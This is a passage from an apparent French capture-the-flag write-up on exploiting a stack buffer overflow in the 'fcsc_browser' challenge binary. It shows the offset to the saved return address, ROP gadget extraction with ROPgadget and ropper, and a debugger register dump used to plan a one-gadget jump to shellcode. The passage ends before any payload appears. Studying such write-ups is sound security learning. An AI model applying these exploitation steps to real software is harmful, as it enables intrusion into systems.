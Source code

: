 BOOM , on a bien un buffer overflow, et pouvons contrôler le flux d'exécution du binaire !

![Noice](img/noice.jpg)



Après quelques tests notamment avec des générateurs de patterns comme: https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html, nous trouvons que l'offset au saved rip est de `137`.

Nous pouvons récupérer les gadgets fournis par le binaire avec `ROPgadget` et `ropper` (je prends toujours l'habitude d'essayer les deux aux cas où des gadgets présents dans l'un ne serait pas présents dans l'autre et vice-versa).

```
$ ROPgadget --binary fcsc_browser > ropgadget_gadgets
$ ropper --file ./fcsc_browser | sed -r "s/\x1B\[([0-9]{1,2}(;[0-9]{1,2})?)?[m|K]//g" > ropper_gadgets
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
```

Remarque: Le fait de piper `ropper` dans `sed` permet d'éliminer les caractères de formatage de `ropper` pour avoir un rendu lisible sous format texte pur.

Cependant ne nous emballons pas trop vite, après quelques essais bien que la `PIE` ne soit pas présente, l'adresse de notre `title` varie sur le tas et cela de façon assez aléatoire, nous ne pouvons donc pas directement jumper à l'adresse dans le tas.

Un autre problème que j'ai remarqué en faisant divers tests avec des gadgets est que nous ne pouvons pas rajouter de nullbytes dans la chaîne récupérée dans le titre. Nous ne pourrons pas donc faire appel à un gadget `call rsp` pour jumper sur ce qui suit l'adresse de retour.

Cela nous laisse une possibilité d'exploitation: Nous devons exploiter l'overflow en "one shot" avec un seul gadget nous permettant de jumper directement sur notre shellcode.

En regardant l'état des registres lors du crash obtenu précédemment, on observe que le registre `rax` pointe vers un pointeur de la chaîne que nous contrôlons:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x0000000000612026  →  0x0007000700050005
$rdx   : 0xc6              
$rsp   : 0x00007fffffffce48  →  0x4141414141414141 ("AAAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffcdb0  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rip   : 0x0000000000407f82  →  <addBrowser(std::__cxx11::basic_string<char,+0> ret 
$r8    : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x00007fffffffce00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r10   : 0xffffffffffffff0c
$r11   : 0x00007fffffffd187  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$r12   : 0x4141414141414141 ("AAAAAAAA"?)
$r13   : 0x00007fffffffd110  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r14   : 0x00007fffffffd090  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r15   : 0x00000000009bc9b0  →  0x0000000040000002
```
